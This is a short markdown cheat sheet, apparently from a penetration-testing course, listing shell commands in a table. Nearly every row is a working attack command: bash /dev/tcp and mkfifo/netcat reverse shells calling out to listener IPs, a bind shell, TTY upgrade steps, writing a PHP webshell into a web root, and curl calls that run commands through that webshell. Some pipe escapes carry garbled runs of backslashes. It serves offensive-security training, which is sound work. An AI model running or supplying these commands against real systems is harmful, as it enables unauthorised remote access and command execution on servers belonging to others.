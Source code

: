 ## Using Shells

| **Command** | **Description** |
| --- | --- |
| `nc -lvnp 1234` | Start a nc listener on a local port |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\\\\\\\\\\\\\\|/bin/sh -i 2>&1\\\\\\\\\\\\\\|nc 10.10.14.3 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\\\\\\\\\\\\\\|/bin/bash -i 2>&1\\\\\\\\\\\\\\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |
| `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1) |
| `ctrl+z then stty raw -echo then fg then enter twice` | Upgrade shell TTY (2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |
| `script /dev/null bash` | Establish shell from nc listener |

